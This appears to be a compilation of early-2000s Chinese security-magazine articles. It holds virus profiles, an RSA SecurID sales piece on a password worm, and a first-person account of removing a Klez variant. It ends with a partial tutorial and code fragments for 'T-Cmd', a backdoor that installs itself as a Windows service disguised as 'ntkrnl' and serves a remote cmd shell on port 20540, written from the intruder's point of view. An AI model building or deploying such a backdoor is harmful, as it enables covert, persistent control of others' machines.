- 2. 病毒发作时会疯狂地用自身病毒代码替代掉硬盘上的所有 *.exe、*.scr 文件，这样会导致一些应用程序无法正常使用，出现如“计算器”无法打开等现象。发现这种情况时，则病毒已经造成了破坏，最好进行一次全盘杀毒，然后再重新安装系统。

- 3. 病毒发作时还会删除所有 *.wav、*.mp3、*.jpg、*.bmp、*.zip、*.rar、*.doc 类型的文件，如果用户发现计算机中这些类型的文件无故丢失，则很可能是中了该病毒，应该立刻进行全盘杀毒，彻底清除该病毒。

### 和平蠕虫病毒档案

病毒名称：Worm.wanor

病毒类型：蠕虫病毒

传播方式：网络 / 邮件

病毒介绍：该病毒通过发送以反战为主题的病毒邮件进行传播，严重占用系统资源。它发作时还会在屏幕上产生一些随机出现的线条，致使用户无法正常使用计算机。

病毒的发现与清除：

此病毒会有如下特征，如果用户发现计算机中有这些特征，则很有可能中了此病毒，可以按照下面所说的方法手工清除病毒。

- 1. 病毒运行后会发送大量的病毒邮件，邮件标题为：“See content! NOT WAR! ARE YOU THE ONLY DANGER FOR THE WORLD, FOR THE HUMANITY AND FOR THE HUMAN BEING”（见正文！不要战争！你是世界仅存的危险、人类的威胁。），邮件内容为：“You show us every day the danger that you represent for the world. Leave us in peace.”（你每天都向我们展示你给这个世界带来的危险。请把和平留给我们。），附件为：Winscr.scr 的病毒邮件。如果发现这种病毒邮件，则应直接删除，不要直接运行该邮件的附件。

- 2. 病毒发作时会在屏幕上显示一些随机的线条，如果发现这种情况时，则计算机已经中了该病毒，最好进行一次全盘杀毒，彻底清除该病毒造成的影响。

### 迪娜

病毒名称：Macro.Word.Dina

病毒类型：宏病毒

病毒介绍：该病毒通过 Office 文档传播，感染所有正在运行的 Word 文档，在其中嵌入名为 Dina 的宏模块。在 2 月 4 日以后的某一天发作，发作时会删除硬盘上所有 .exe 文件，使系统崩溃。

### 如何将 RSA SecurID® 用于防范“口令蠕虫”病毒

文／宋海成


翻开《北京青年报》，在短短的二个月内，就有了如此多的报道：（1）银行卡里被盗百万，南京发生新中国成立以来首起“黑客入侵银行”案；（2）信息窃贼瞄准“资料金矿”，美国 50 万军人医疗档案被盗；（3）网站被“黑”谁来赔，网管谁准备起诉主机提供商；（4）电话被“盗号”，用于上网冲浪；（5）全球互联网遭攻击，中国多地出现登录失败现象，官方证实病毒属蠕虫性质；（6）通信公司网络系统出现故障，交电话费短暂瘫痪；（7）“金卡”没改密码，工资不翼而飞。紧跟着以新华社为首的全国各大媒体，又在 3 月 8 日发布重要报道：“口令蠕虫”突袭我国数万家服务器，个别骨干网出现拥塞，用户需要强化口令管理。继而，新华社又在 3 月 16 日电讯：提醒消费者使用信用卡，要有“六个当心”，卡内存钱别太多，输入卡号和密码时要防止被旁人窃取。大量事实说明，金融、银行、证券和政府重要机构更是“黑客”首选的攻击重点。

由此，可以看出黑客的入侵是大到全球网络，小到家庭拨号上网，真是无所不在、无恶不作、无孔不入。那么，我们受损失的程度又是如何呢？有人称：今年 1 月 25 日的全球网络遭遇“蠕虫”攻击，让世界一下子就倒退了 50 年。人们因为网络突然瘫痪，顿时手足无措，惊呼：“如果没有网络，世界将会怎样”！！！而新华社通讯社的 3 月 16 日电讯，准会让世界上最大的发信用卡公司威萨卡（VISA）、万事达卡和中国银联卡的老板们看后而引发心脏病。试问，如果所有的消费者在使用信用卡都要有“六个当心”，都不要往信用卡内存太多的钱，那么，我们还要拥有信用卡吗？消费者有了信用卡，又有何用？这已经不是信用卡危机，也不是信用危机，而是人人自危了。可悲的是，上述这么多的问题都是发生在 2003 年以来，这短短的二、三个月之中的事情。

面对如此严峻的形势，信息安全行业人士有责任立即行动起来，率领着广大用户在虚拟的空间里，抵御网络上的病毒和黑客入侵。这已经是一场当务之急的信息安全保卫战争，已经没有了退缩的理由，也没有退缩的空间了。

首先，在三月的全国人大代表会上，人大代表提出了议案，提议制定我国首部“国家信息安全法”。人大代表在会上大声疾呼：现在的信息安全亟须保障。病毒问题、网络攻击问题以及盗窃密码、偷窃信息等问题已经相当严重，这些问题对政府、企业、个人造成的危害是不言而喻的，但信息安全问题还没有得到充分的认识。目前，我国与互联网相关的网络管理中心有不少遭到过境外“黑客”的攻击或入侵，其中银行、金融和证券机构是攻击重点。我国有关部门曾经通过模拟攻击，对 650 个政府上网单位的信息安全保密工作进行调查，发现其中一些网站基本没有安全措施，而且有的遭到攻击也没有报告。

其次，中国计算机网络应急处理协调中心发出了互联网用户加强口令安全管理的通知：立即更换系统超级用户口令，加大口令强度，缩短口令更新周期，加强口令的管理。中国计算机网络应急处理协调中心负责人还介绍，“口令蠕虫”有三个特点：一是自带一份口令字典，对网上主机超级口令进行基于字典的猜测；二是一旦猜测口令成功，该“口令蠕虫”就会植入一个与远程控制和传染相关的程序，立即主动向国外的几个特定服务器联系，并可远程控制；三是该“口令蠕虫”扫描流量极大，容易造成网络严重拥塞。口令攻击是常见的黑客攻击方式，但像“口令蠕虫”这样形成大面积、大规模、自动化的网上口令攻击，并致使系统与国外特定服务器进行连接，是一种新的网络攻击方式。与以往利用操作系统或应用系统的技术漏洞进行攻击不同的是，“口令蠕虫”所利用的是网上用户对口令等管理的弱点进行攻击。虽然，中国计算机网络应急处理协调中心发现“口令蠕虫”后，启动了我国计算机网络应急处理机制，协调指导我国所有的互联网运营商，在骨干网上采取了相应的技术措施，有效地遏制了恶性传播。但是，“口令蠕虫”对于网络的危害并没有结束。要想认真解决“口令蠕虫”的危害和黑客通过猜测口令侵入网络、盗窃数据、威胁信息安全，最好的方法还是采取防范措施。

当今，世界上最有效的信息安全预防措施之一，就是 RSA 信息安全公司的拳头产品——RSA SecurID 双因素认证产品。双因素用户认证系统能够代替基本的密码安全机制，有效抵御非法入侵，使宝贵的网络资源获得完善的保护，免受意外造成的破坏及恶意入侵。RSA SecurID 双因素用户认证产品的操作，如同使用取款卡一样简单方便；用户只需在进入受保护的网络前，先行输入个人识别密码，以及在 RSA SecurID 认证器上每隔六十秒转换一次的口令，就能通过认证。由于 RSA SecurID 认证器上每隔六十秒转换一次的位数无穷尽、无重复的口令，无论多么高明的黑客都无法在如此短暂的时间内猜测出如此复杂的口令，这也就是为什么 RSA SecurID 双因素用户认证产品如此有效和如此神奇了。

国务院信息办日前公布：截至 2002 年 10 月 31 日，我国上网用户人数达到 5800 万，上网计算机数升到 2300 万台。互联网所催生的新业务像雨后春笋般不断出现。金融、财税、能源、交通、教育等行业信息化应用程度也不断提高；互联网在国民经济各领域和人民群众生活的各个方面发挥着越来越大的作用。据预测：未来两、三年内我国的网民可能要比现在的 5800 万翻两番。这样广阔的市场前景为从事信息安全的行业人士，带来了无限生机和挑战，也是身为信息时代从业人士的机遇。此时，请记住诗人的话：当命运之神向你微笑的时候，你要张开双臂去紧紧地拥抱它。

可以说，世界的网络经济不是破灭了，而是在经历了冬天之后，开始迎来了春天。信息技术的产业革命终将改变人们传统的生活方式和工作方式，网络不会以人们的意志为转移，它将步伐坚定地带领着时代前进。

### QQ 木马变种

病毒名称：Trojan.QQpass7

病毒类型：木马病毒

传播方式：通过邮件／网络传播

病毒介绍：该病毒搜索硬盘上的所有分区，在每个分区的根目录下生成 autorun.ini 文件，无论用户查看哪个分区，病毒都会立即运行，并在硬盘上的每个目录下生成一个随机名字的病毒复本，浪费大量硬盘空间；同时它盗窃用户 OICQ 密码，并通过网络与外界黑客程序沟通，从而泄露用户信息。

### 批处理 Z

病毒名称：Worm.Batzback.e

病毒类型：蠕虫病毒

病毒介绍：该病毒通过邮件／网络传播，利用 mIRC 网络聊天工具进行传播，同时释放批处理脚本病毒 Bat.Worm.Batzback.e 来删除国内外几十家反病毒软件，并格式化硬盘里的所有分区！

### 可爱的酒桶

病毒名称：Vbs.YTunFun.a

病毒类型：脚本病毒

病毒介绍：它的破坏很直接，将格式化 C 盘的命令写入 autoexec.bat 文件中，在系统重启时格式化 C 盘，并且会疯狂攻击某网站，使该网站处于瘫痪状态。

### 秘密间谍

病毒名称：Trojan.Stealth.Spy

病毒类型：木马病毒

病毒介绍：它伪装成一个 bmp 文件，弹出一幅图片迷惑用户，与此同时它已经在后台运行，监听端口，向外发送病毒邮件。


### 蠕虫病毒遭遇战

文／曹洋

#### 一、中毒……

一日无事，在公司局域网中闲逛，忽然发现服务器上自己共享目录下多出了几个 EXE 文件，其中一个名为 CMDLINES.EXE，看名字好像是 Windows 2000 下的一个 CMD 文件。我心中不禁一喜：大概是公司担当网管的兄弟又发现一个什么好东东，直接扔到我的共享目录下。于是双击该文件，在共享目录下多了几个文件，其他好像什么事都没发生。再双击，还是没动静，只是在共享目录下又多了几个文件，大小从 85～95KB 不等。仔细看文件名：FRUNLOG.RAR、For.RAR、For.xls.scr、FRUNLOG.JPG.PIF、FRUNLOG.JPG.BAT……看到 *.JPG.BAT 的文件名时，我心中不禁一惊，这肯定不是什么好东西，一个正常的文件 99.99% 都不会起这种后缀名。难道我中毒了？！

我的机器安装的是 Windows 98，没有安装查看进程的工具。再来，打开“开始”→“程序”→“附件”→“系统工具”→“系统信息”，打开“软件环境”下的“正在运行任务”查看。原来在这里，Winkpig.exe，无版本、厂商、说明、类型和属于条目，路径为 C:\WINDOWS\Winkpig.exe。而在 WINDOWS 目录下根本就没有以 Wink 开头的文件！我中毒了……

#### 二、分析病毒类型

冷静下来，看看硬盘灯，并没有狂闪，从目前的情况来看，这不是一个以删除文件之类恶劣行径的破坏型病毒。难道是木马？打开“开始”→“程序”→“MS-DOS 方式”，输入：netstat -n -a 查看。没有可疑端口打开，由此看来，病毒并没有打开端口等待连接，也就是说，这也并不是一个木马程序。

再次打开“开始”→“程序”→“MS-DOS 方式”，输入：net use，查看是否有可疑的网络连接。我深深地吸了一口气：我的机器正在试图连接局域网内所有机器的共享文件夹！看来这是一个以网络传播方式发作的蠕虫病毒。还好，公司内部网连不到 Internet 上，而且前段时间公司已经禁止客户端机器使用共享文件夹，每个用户对服务器上其他用户的共享文件夹没有写的权限，所以病毒并没有从我的机器上传播到其他机器上。

#### 三、杀毒！

稍稍喘了一口气，现在看来情况还不算太坏，病毒并没有造成什么太大的破坏。只要删除就没事了。现在直接删是删除不了的（程序正在运行嘛！）。由于我机器上并没有安装什么杀进程的工具，于是只有重启。再次查看“系统信息”里的“正在运行任务”，发现 Winkpig.exe 还在运行。看来病毒修改了注册表，使自身在开机时就自动运行。看来这个病毒的文件名并没起错，我还真是个 pig！连这都没想到。打开注册表编辑器，查找到以下条目：

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices

在这里了：名称：Winkpig，数据：C:\WINDOWS\Winkpig.exe。

删除掉这个键值，重启。删除病毒文件 Winkpig.exe，删除自己在服务器上的病毒文件：FRUNLOG.RAR、FRUNLOG.JPG.PIF、FRUNLOG.JPG.BAT……

再次重启机器，使用 net use 查看网络连接，不错不错，没有试图连接其他机器共享文件夹的现象了。

#### 四、再次中毒！

做完这些事后，心情很好，于是喝了口水，工作了会儿，找到一个 RAR 压缩文件，里面是被老板严令禁止的游戏程序，查了我的机器好几次都没查到，呵呵，今天心情好，玩两把再说！（别告诉我老板哦！否则我就没饭吃了。）

双击该 RAR 文件打开。噢，奇怪，今天怎么打开得这么慢？我心头不禁又掠过一丝阴影，难道是它又回来了？！使用 net use 查看网络连接，为什么会这样！我的机器又正在试图连接局域网内所有机器的共享文件夹！查看服务器上我的共享目录，出现了三个新的可疑文件：For.scr、Rqrh.pif、For.txt.AVB。再次查看“系统信息”里的“正在运行任务”，又出现了一个新的病毒文件：Winkkcu.exe，无版本、厂商、说明、类型和属于条目，路径为 C:\WINDOWS\Winkkcu.exe。我又中毒了……

#### 五、再杀！

回想一下刚才的操作，打开过 TXT、EXE、RAR 文件。难道这次中的是文件关联型病毒？打开注册表编辑器，查找到以下条目：

HKEY_CLASSES_ROOT\exefile\shell\open\command，默认键值为：%1 %*

没错啊！再查找到以下条目：

HKEY_CLASSES_ROOT\txtfile\shell\open\command，默认键值为：C:\WINDOWS\NOTEPAD.EXE %1

也没错啊！难道是 RAR 文件染毒了？刚才共享目录下的确是有后缀名为 RAR 的文件，看看 .rar 的键值，默认、ShellNew 子键的键值和别人的都一样，不会是打开出的问题。现在只有一种可能了：WinRAR 的主程序 WinRAR.exe 被病毒感染了！

这次我不敢怠慢，找了一个系统监视工具：Power Monitor 2001 Professional 安装到机器上。打开进程浏览器，终止 Winkkcu.exe 的进程，打开优化计算机里的启动任务项，删除注册表 RunServices 下的键值；删除病毒文件 Winkkcu.exe。删除自己在服务器上的病毒文件：For.scr、Rqrh.pif、For.txt.AVB……然后打开“控制面板”→“添加／删除程序”，卸载 WinRAR，再重装。找到刚才的 RAR 压缩文件，双击文件打开。怀着点忐忑不安的心情，再次查看网络连接。好了，没有试图连接其它机器共享文件夹的现象了。重新启动，还是没问题！不信搞不定你！

#### 六、我快崩溃了……

杀毒杀了半天，也没了玩游戏的心情，还是学习学习吧。找到一篇 E 文看了起来。一会儿碰到一个不认识的单词，于是习惯性地打开 XX 词霸。看着它启动的速度，我都要哭了……使用 net use 查看网络连接，我的机器又在试图连接局域网内所有机器的共享文件夹！查看服务器上我的共享目录，出现了三个新的可疑文件：catalog.html.scr、Dif.exe、For.bat。再次查看“系统信息”里的“正在运行任务”，又出现了两个新的病毒文件：Winkkpv.exe 和 Winkcte.exe，无版本、厂商、说明、类型和属于条目，路径分别为 C:\WINDOWS\Winkkpv.exe 和 C:\Program Files\Winkcte.exe，病毒又来了，而且比上次还要厉害！我快崩溃了……

### 七、杀杀杀!!!

横下一条心，一定杀干净！继续使用 Power Monitor 2001 Professional，打开进程浏览器，终止 Winkkpv.exe 的进程，到 C:\WINDOWS 下去删了它！噢，奇怪，怎么还告诉我程序正在运行？刷新一下进程，C:\WINDOWS\Winkkpv.exe 又出现在列表里。大概是 C:\Program Files\Winkcte.exe 作为守护进程运行的，每当发现 C:\WINDOWS\Winkkpv.exe 的进程被终止就自动重启动它。先杀了它试试。终止 Winkcte.exe 的进程，到 C:\Program Files 下去删了它；再终止 Winkkpv.exe 的进程，到 C:\WINDOWS 下去删了它。嗯，不错，删掉了。删除在服务器上的病毒文件：catalog.html.scr、Dif.exe、For.bat。卸载 WinRAR，再重装。想想刚才就只用过 XX 词霸，难不成 XX 词霸也被感染了？进入到 XX 词霸的安装目录，查看所有文件。噢，除了主程序 XDICT.EXE，怎么还有一个名为 XDICT.XYD 的隐藏文件？文件大小和 XDICT.EXE 差不多，难不成这就是病毒文件了？删了它，再运行 XX 词霸试试。不对，XX 词霸的界面没出来，一查进程，病毒又回来了……

看来病毒肯定是先将自身和 XX 词霸的主程序捆绑起来，再将 EXE 文件分割成两个不同的文件，当运行 XDICT.EXE 时，其实是先运行病毒文件，再调用被捆绑文件的主程序。被捆绑的 EXE 文件是随机选取的，上一次是 WinRAR.exe，然后又选中了 XDICT.EXE，不知还有没有其他的 EXE 文件被感染……

知道病毒感染的原理就好办了。老规矩，杀进程，删病毒文件，卸载 XX 词霸，重装……再找找有没有其它 EXE 文件被感染。嗯，这里还有：FastAIT.exe 被分解成了 FastAIT.XWZ，蛮狡猾的嘛，每次的文件后缀名都不一样。这次不用卸载重装的笨办法，试试这个方法行不行：删除 FastAIT.exe 和 FastAIT.XWZ，从其它机器上拷贝一个未染毒的 FastAIT.exe 过来，运行，查进程，不错，没有病毒运行的迹象。查查其它 EXE 文件，有染毒的就照此方法操作。多运行几个程序试试，查进程，好极了，还是没有病毒运行的迹象。这小虫已经被我揪出来一脚踩死了！这个世界总算清净了！

杀完毒后，我找来网管兄弟，告诉他发现蠕虫的事，他万分惊讶，说前两天上网收过一封邮件，邮件所带的附件里好像是有一个这类的程序，当时也没留意，谁知道竟会是蠕虫病毒。由于他使用的是 ADMIN 的账号登录，所以对服务器上所有用户的共享文件夹都有写的权限，也就造成病毒传播到我的共享文件夹里。他还说他机器上本来装有杀毒软件的，只是一时偷懒连续几个月没升级病毒库了。立刻上网升级病毒库，在局域网上的每台机器上都查一遍，统统杀干净。

#### 八、事后小结

- 1. 网上来的文件不要轻易执行，还得要看清楚这些文件的后缀名，现在很多病毒都使用诸如 `*.TXT.EXE` 形式的文件名骗你打开，千万小心！
- 2. 别偷懒，一定得及时升级病毒库，否则这种杀毒软件装和没装都一个样！
- 3. 在公司局域网上网尽量不要用管理员的账号上网，否则感染点病毒什么的后悔都来不及！
- 4. 碰到机器中毒这种难得的“好机会”最好是手动杀毒，这对你的知识和能力的提高有着不小的帮助。当然，没事也别学神农去尝百草，弄不好爱机的小命就玩完了……
- 5. 上面提到的系统监视工具：Power Monitor 2001 Professional 可以在 `http://powerstudio.home.chinaren.com/` 上下载。类似的系统监视工具在网上有很多，比如“柳叶擦眼”、《网络休闲庄》出品的“个人电脑安全伴侣”等等，安装这样一个工具可以为你解决很多麻烦，在手动杀毒时也可以方便多了。
- 6. 经过查实，该病毒是“求职信病毒变种”。

#### 附：求职信病毒档案

**2001 年 10 月，魔力初试**  
“求职信”第一版：利用微软邮件系统的安全漏洞，通过电子邮件传播，传染能力极强。遇到单月 13 日时会自动发作。

**2001 年 11 月，再掀风浪**  
“求职信”（b/c/d 版）：增加了一些更具伪装性的邮件主题，破坏影响不大。

**2002 年 1 月，破坏能力转强，难以防范**  
“求职信”（e/f/g 版）：“求职信”病毒的多个变种（Klez.e、Klez.f、Klez.g）集体出击。在原病毒的基础上增加了更多的工作线程，可驻留系统、强行关闭用户正在进行的正常操作、删除有用文件。

**2002 年 2 月，持续危害，流传不广**  
“求职信”（h/i 版）：保留了以前版本的所有破坏伎俩，可破坏所有硬盘和网络盘，增加可覆盖文件的类型。

**2002 年 4 月 16 日，席卷再至，级别提升**  
“求职信”（j/k 版）：具备对反病毒软件的反攻击能力、更大破坏性以及高超的隐藏特性，由于该病毒程序存在缺陷，所以迅速转变为新的变种。

**2002 年 4 月 18 日，肆虐全球，危害巨大**  
“求职信”（l 版）：迅速在全球扩散，势头凶猛异常，导致受害用户呈几何级数直线上升。全球各反病毒机构均发出最高等级的病毒警报。

## 浅析 Windows2000/XP 服务与后门技术


早期的木马后门都是在 Run 下写入一个字符串的“项”，该“项”标识着系统启动后运行的程序，但这个程序必须等到用户登录后方可执行。随着 Windows 2000/XP 的普及，现在的木马多数已经启用一个服务程序，这样用户即使不登录也能被控制。如此一来，后门的隐蔽性也大大地提高。

文／T002y

#### 一、序言

Windows 下的服务程序都遵循服务控制管理器（SCM）的接口标准，它们会在登录系统时自动运行，甚至在没有用户登录系统的情况下也会正常执行，类似于 UNIX 系统中的守护进程。它们大多是控制台程序，不过也有少数的 GUI 程序。本文所涉及到的服务程序仅限于 Windows2000/XP 系统中的一般服务程序，不包含 Windows9X。

#### 二、Windows 服务简介

服务控制管理器拥有一个在注册表中记录的数据库，包含了所有已安装的服务程序和设备驱动服务程序的相关信息。它允许系统管理员为每个服务自定义安全要求和控制访问权限。Windows 服务包括 4 大部分：服务控制管理器，服务控制程序，服务程序和服务配置程序。

### 1. 服务控制管理器（SCM）

服务控制管理器在系统启动的早期由 Winlogon 进程启动，可执行文件名是“Admin$\System32\Services.exe”，它是系统中的一个 RPC 服务器。因此，服务配置程序和服务控制程序可以在远程操纵服务。它包括以下几方面的信息：

已安装服务数据库：服务控制管理器在注册表中拥有一个已安装服务的数据库，它被用来由服务控制管理器和程序添加、删除、配置服务程序。

在注册表中数据库的位置为：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services。它包括很多子键，每个子键的名字就代表一个对应的服务。数据库中包括：服务类型，启动类型，错误类型，执行文件路径，依赖信息选项，可选用户名与密码。

自动启动服务：系统启动时，服务控制管理器启动所有“自启”服务和相关依赖服务。服务的加载顺序：顺序装载组列表：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\ServiceGroupOrder；指定组列表：HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\GroupOrderList；每个服务所依赖的服务程序。在系统成功引导后会保留一份 LKG（Last-Know-Good）的配置信息，位于：HKEY_LOCAL_MACHINE\SYSTEM\ControlSetXXX\Services。

如果需要启动服务，用户可以使用服务控制面板程序来启动一项服务。服务控制程序也可以使用 StartService 来启动服务。

服务控制管理器会进行下面的操作：获取账户信息，登录服务项目，创建服务为悬挂状态，分配登录令牌给进程，允许进程执行。

**服务记录列表：**

这里每项服务在数据库中都包含了下面的内容：服务名称、开始类型、服务状态、依赖服务……服务列表指针。

**服务控制管理器句柄：**

服务控制管理器支持句柄类型访问对象：已安装服务数据库、服务程序、数据库的锁开状态。

### 2. 服务控制程序（SCP）

服务控制程序可以执行对服务程序的开启、控制和状态查询功能：

**开启服务：**

如果服务的开启类型为 `SERVICE_DEMAND_START`，就可以用服务控制程序来开始一项服务。在开始服务的初始化阶段，服务的当前状态为：`SERVICE_START_PENDING`，而在初始化完成后的状态就是：`SERVICE_RUNNING`。

**向正在运行的服务发送控制请求：**

控制请求可以是系统默认的，也可以是用户自定义的。标准控制代码如下：

| 操作 | 控制代码 |
|---|---|
| 停止服务 | `SERVICE_CONTROL_STOP` |
| 暂停服务 | `SERVICE_CONTROL_PAUSE` |
| 恢复已暂停服务 | `SERVICE_CONTROL_CONTINUE` |
| 获得更新信息 | `SERVICE_CONTROL_INTERROGATE` |

### 3. 服务程序

一个服务程序可能拥有一个或多个服务的执行代码。我们可以创建类型为 `SERVICE_WIN32_OWN_PROCESS` 的只拥有一个服务的服务程序，而类型为 `SERVICE_WIN32_SHARE_PROCESS` 的服务程序却可以包含多个服务的执行代码。

### 4. 服务配置程序

编程人员和系统管理员可以使用服务配置程序来更改、查询已安装服务的信息，当然也可以通过注册表函数来访问相关资源。

#### 三、Windows 服务与编程

Windows 服务编程包括几方面的内容。

### 1. 服务控制程序

执行服务控制程序的相关函数前，我们需要获得一个服务对象的句柄，方式有两种：由 `OpenSCManager` 来获得一台特定主机的服务控制管理器数据库的句柄；使用 `OpenService` 或 `CreateService` 函数来获得某个服务对象的句柄。

启动服务：要启动一个服务，服务控制程序可以使用 `StartService` 来实现。如果服务控制管理器数据库被锁定，那需要等待一定的时间然后再次测试 `StartService` 函数。当然，也可以使用 `QueryServiceLockStatus` 函数来确认数据库的当前状态。在启动成功完成时，那么 `dwCurrentState` 参数将会返回 `SERVICE_RUNNING` 值。

服务控制请求：服务控制程序使用 `ControlService` 函数来发送控制请求到正在运行的服务程序。它会向控制句柄函数发送一个特定的控制命令，可以是系统默认的，也可以是用户自定义的。而且，每个服务都会确定自己将会接收的控制命令列表。使用 `QueryServiceStatus` 函数时，在返回的 `dwControlsAccepted` 参数中表明服务程序将会接收的控制命令。所有的服务都会接受 `SERVICE_CONTROL_INTERROGATE` 命令。

### 2. 服务程序

一个服务程序内可以包含一个服务或多个服务的执行代码，但是它们都拥有固定的 3 个部分：服务 `main` 函数、服务 `ServiceMain` 函数和服务 `Control Handler` 函数。

**服务 main 函数：** 服务程序通常是以控制台的方式存在的，所以它们的入口点都是 `main` 函数。在服务控制管理器开始一个服务程序时，会等待 `StartServiceCtrlDispatcher` 函数的执行。如果服务类型是 `SERVICE_WIN32_OWN_PROCESS`，就会立即调用 `StartServiceCtrlDispatcher` 函数的执行；如果服务类型是 `SERVICE_WIN32_SHARE_PROCESS`，通常在初始化所有服务之后再调用它。`StartServiceCtrlDispatcher` 函数的参数就是一个 `SERVICE_TABLE_ENTRY` 结构，它包含了进程内所有服务的名称和服务入口点。

**服务 ServiceMain 函数：** 函数 `ServiceMain` 是服务的入口点。在服务控制程序请求一个新的服务启动时，服务控制管理器启动一个服务，并发送一个开始请求到控制调度程序，而后控制调度程序创建一个新线程来执行 `ServiceMain` 函数。`ServiceMain` 须执行以下的任务：

RegisterServiceCtrlHandler 函数注册一个 HandlerEx 函数来向服务发送控制请求信息，返回值是服务状态句柄，用来向服务控制管理器传送服务状态。初始化后调用 SetServiceStatus 函数，设置服务状态为 SERVICE_RUNNING。最后，就是执行服务所要完成的任务。

服务 Control Handler 函数：每个服务都有一个控制句柄 HandlerEx 函数。它会在服务进程从服务控制程序接收到一个控制请求时被控制调度程序所调用。无论何时在 HandlerEx 函数被调用时，都要调用 SetServiceStatus 函数向服务控制管理器报告它当前的状态。在用户关闭系统时，所有的控制句柄都会调用带有 `SERVICE_ACCEPT_SHUTDOWN` 控制代码的 SetServiceStatus 函数来接收 `SERVICE_CONTROL_SHUTDOWN` 控制代码。

### 3. 服务配置程序

服务配置程序可以更改或查询服务的当前配置信息。在调用服务配置函数之前，必须获得一个服务对象的句柄，当然我们可以通过调用 OpenSCManager、OpenService 或 CreateService 函数来获得。

创建、删除服务：服务配置程序使用 CreateService 函数在服务控制管理器的数据库中安装一个新服务，它会提供服务的名称和相关的配置信息并存储在数据库中。服务配置程序则使用 DeleteService 函数从数据库中删除一个已经安装的服务。

#### 四、服务级后门技术

在进入某个系统后，我们往往会为自己留下一个或多个后门，以便今后的访问。如果我们上传一个后门程序到远程系统上后，在系统重启之时，总是希望后门仍然存在。那么，将后门程序创建成服务程序应该是个不错的想法，这就是利用了服务程序自动运行的机制，当然在 Windows2000 的任务管理器里也很难结束一个服务程序的进程。

创建一个后门，它常常会在一个端口监听，以方便我们使用 TCP/UDP 协议与远程主机建立连接，所以我们首先需要在后门程序里创建一个监听的端口。为了数据传输的稳定与安全，我们可以使用 TCP 协议。

那么，我们如何才能模拟一个 Telnet 服务似的后门呢？我想大家都清楚，如果在远程主机上有一个 Cmd 是我们可以控制的，也就是我们可以在这个 Cmd 里执行命令，那么就可以实现对远程主机的控制了，至少可以执行各种通常的系统命令了。启动一个 Cmd 程序的方法很多，有 WinExec、ShellExecute、CreateProcess 等，但我们只能使用 CreateProcess，因为 WinExec 和 ShellExecute 实在太简单了。在使用 CreateProcess 时，我们要用到它的重定向标准输入、输出的选项功能，把在我们本地主机的输入重定向输入到远程主机的 Cmd 进程，并且把远程主机 Cmd 进程的标准输出重定向到我们本地主机的标准输出。这就需要在后门程序里使用 CreatePipe 创建两个管道来实现进程间的数据通信（Inter-Process Communication，IPC）。当然，还必须将远程主机上 Cmd 的标准输入和输出在本地主机之间进行传送，我们选择 TCP 协议的 send 和 recv 函数。在客户端结束访问后，我们还要调用 TerminateProcess 来结束我们创建的 Cmd 进程。

#### 五、关键函数分析

本文相关程序 T-Cmd v1.0 是一个服务级的后门程序，适用平台为 Windows2000/XP。它可自动为远程／本地主机创建服务级后门，而无须使用任何额外的命令，支持本地／远程模式。重启后，程序仍然自动运行，监听端口 20540/tcp。

### 1. 自定义数据结构与函数

```c
typedef struct
{
    HANDLE hPipe;
    // 为实现进程间通信而使用的管道；
    SOCKET sClient;
    // 与客户端进行通信时客户端的套接字；
} SESSIONDATA, *PSESSIONDATA;

// 重定向 Cmd 标准输入／输出时使用的数据结构

typedef struct PROCESSDATA
```

```c
HANDLE hProcess;
// 创建 Cmd 进程时获得的进程句柄
DWORD dwProcessId;
// 创建 Cmd 进程时获得的进程标识符
struct PROCESSDATA *next;
// 指向下一个数据结构的指针
} PROCESSDATA, *PPROCESSDATA;
// 在客户端访问或删除服务时，为关闭所有的
// Cmd 进程而创建的数据结构

void WINAPI CmdStart(DWORD, LPTSTR *);
// 服务程序中的 “ServiceMain”，注册服务控制句柄，
// 创建服务主线程

void WINAPI CmdControl(DWORD);
// 服务程序中的 “HandlerEx”，处理接收到的控制命令、删除已创建的 Cmd 进程

DWORD WINAPI CmdService(LPVOID);
// 服务主线程，创建服务监听端口，在接受客户端连接时，创建重定向 Cmd 标准输入/输出线程

DWORD WINAPI CmdShell(LPVOID);
// 创建管道与 Cmd 进程，输入/输出 Cmd 线程

DWORD WINAPI ReadShell(LPVOID);
// 重定向 Cmd 的输出，读取信息后发送到客户端

DWORD WINAPI WriteShell(LPVOID);
// 重定向 Cmd 的输入，接收客户端的信息输入到 Cmd 进程

BOOL ConnectRemote(BOOL, char *, char *, char *);
// 如果选择远程模式，则须与远程主机建立连接，准备提供管理员权限的用户名与密码

void InstallCmdService(char *);
// 复制传送文件、打开服务控制管理器、创建或打开服务程序

void RemoveCmdService(char *);
// 删除文件，停止服务后，卸载服务程序
```

## 2. 服务程序相关函数

```c
SERVICE_TABLE_ENTRY DispatchTable[] =
{
    {"ntkrnl", CmdStart},
    // 服务程序的名称和入口点
    {NULL, NULL}
    // SERVICE_TABLE_ENTRY 结构必须以 “NULL” 结束
};

StartServiceCtrlDispatcher(DispatchTable);
// 连接服务控制管理器，开始控制调度程序线程

ServiceStatusHandle = RegisterServiceCtrlHandler(
    "ntkrnl", CmdControl);
// 注册 CmdControl 函数为 “HandlerEx” 函数，并初始化

ServiceStatus.dwCurrentState = SERVICE_RUNNING;
SetServiceStatus(ServiceStatusHandle, &ServiceStatus);
// 设置服务当前状态为 SERVICE_RUNNING

hThread = CreateThread(NULL, 0, CmdService, NULL, 0, NULL);
// 创建服务主线程，实现后门功能

WaitForSingleObject(hMutex, INFINITE);
// 等待互斥量，控制全局变量同步使用

TerminateProcess(lpProcessDataHead->hProcess, 1);
// 终止创建的 Cmd 进程

hSearch = FindFirstFile(lpImagePath, &FileData);
// 查找系统目录下服务程序的文件是否已经存在

GetModuleFileName(NULL, lpCurrentPath, MAX_PATH);
// 获得当前进程的程序文件名

CopyFile(lpCurrentPath, lpImagePath, FALSE);
// 复制文件到系统目录下

schSCManager = OpenSCManager(lpHostName, NULL, SC_MANAGER_ALL_ACCESS);
// 打开服务控制管理器数据库

CreateService(schSCManager, "ntkrnl", "ntkrnl",
    SERVICE_ALL_ACCESS,
    SERVICE_WIN32_OWN_PROCESS,
    SERVICE_AUTO_START,
    SERVICE_ERROR_IGNORE,
    "ntkrnl.exe",
    NULL, NULL, NULL, NULL, NULL);
// 创建服务，参数包括名称、服务类型、开始类型、错误类型及文件路径等

schService = OpenService(schSCManager, "ntkrnl", SERVICE_START);
